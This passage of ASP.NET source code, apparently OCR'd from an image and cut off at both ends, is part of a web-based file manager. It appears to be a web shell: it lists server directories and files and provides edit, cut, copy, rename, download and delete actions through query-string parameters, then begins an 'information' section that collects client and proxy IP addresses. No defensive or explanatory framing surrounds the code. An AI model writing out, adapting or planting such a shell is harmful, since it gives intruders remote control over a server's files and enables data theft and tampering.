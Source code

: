 		guru= "<tr><td><a href='?action=goto&src=" & server.UrlEncode(Getparentdir(url)) & "'><i>|Parent Directory|</i></a></td></tr>"
		response.Write(guru)
		for each xdir in mydir.getdirectories()
			response.Write("<tr>")
			dim filepath as string 
			filepath=server.UrlEncode(url & xdir.name)
			guru= "<td><a href='?action=goto&src=" & filepath & "\" & "'>" & xdir.name & "</a></td>"
			response.Write(guru)
			response.Write("<td>&lt;dir&gt;</td>")
			response.Write("<td>" & Directory.GetLastWriteTime(url & xdir.name) & "</td>")
			guru="<td><a href='?action=cut&src=" & filepath & "\'  target='_blank'>Cut" & "</a>|<a href='?action=copy&src=" & filepath & "\'  target='_blank'>Copy</a>|<a href='?action=del&src=" & filepath & "\'" & " onclick='return del(this);'>Del</a></td>"
			response.Write(guru)
			response.Write("</tr>")
		next
		%></td>
  </tr>
		<tr>
        <td><%
		for each xfile in mydir.getfiles()
			dim filepath2 as string
			filepath2=server.UrlEncode(url & xfile.name)
			response.Write("<tr>")
			guru="<td>" & xfile.name & "</td>"
			response.Write(guru)
			guru="<td>" & GetSize(xfile.length) & "</td>"
			response.Write(guru)
			response.Write("<td>" & file.GetLastWriteTime(url & xfile.name) & "</td>")
			guru="<td><a href='?action=edit&src=" & filepath2 & "'>Edit</a>|<a href='?action=cut&src=" & filepath2 & "' target='_blank'>Cut</a>|<a href='?action=copy&src=" & filepath2 & "' target='_blank'>Copy</a>|<a href='?action=rename&src=" & filepath2 & "'>Rename</a>|<a href='?action=down&src=" & filepath2 & "' onClick='return down(this);'>Download</a>|<a href='?action=del&src=" & filepath2 & "' onClick='return del(this);'>Del</a></td>"			
			response.Write(guru)
			response.Write("</tr>")
		next
		response.Write("</table>")
		%></td>
      </tr>
</table>
<script language="javascript">
function del()
{
if(confirm("Are you sure?")){return true;}
else{return false;}
}
function down()
{
if(confirm("If the file size > 20M,\nPlease don\'t download\nYou can copy file to web directory ,use http download\nAre you sure download?")){return true;}
else{return false;}
}
</script>
<%
case "information"
	dim CIP,CP as string
	if getIP()<>request.ServerVariables("REMOTE_ADDR") then
			CIP=getIP()
			CP=request.ServerVariables("REMOTE_ADDR")
	else
			CIP=request.ServerVariables("REMOTE_ADDR")
			CP="None"